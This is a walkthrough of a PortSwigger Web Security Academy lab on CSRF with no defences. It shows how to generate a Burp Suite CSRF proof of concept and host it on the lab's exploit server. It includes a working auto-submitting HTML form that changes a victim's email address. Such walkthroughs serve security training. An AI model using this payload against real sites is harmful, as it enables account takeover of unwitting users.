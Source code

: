 [Source](https://portswigger.net/web-security/csrf/lab-no-defenses)
## Task
The email address change functionality in this lab is vulnerable to CSRF.
To solve the task, we need to create HTML code that changes the email address of the user viewing the page using a CSRF attack and upload this code to our exploit server.
We can log in to our account using the following credentials: `wiener:peter`.
## Solution
Go to the task site

![image](images/20241223105903.png)

Log in to your account

![image](images/20241223110025.png)


![image](images/20241223110043.png)

Enter the email you want to change to and intercept the request in `Burp Suite`. Then right-click > Engagement tools > Generate CSRF PoC`. Click `Copy HTML`.

![image](images/20241223110353.png)


![image](images/20241223110637.png)

After that, go to the site, click the `Go to exploit server` button and paste the vulnerable HTML code into `Body`. Click `Store`
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8e00cf04a2eee5bf12e0fe00ba0074.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="mailforspamwork&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](images/20241223110954.png)

Let's check if the exploit works. To do this, click the `View exploit` button and intercept the request in `Burp Suite`.

![image](images/20241223111113.png)

Then click `Deliver exploit to victim` and the problem is solved

![image](images/20241223122937.png)
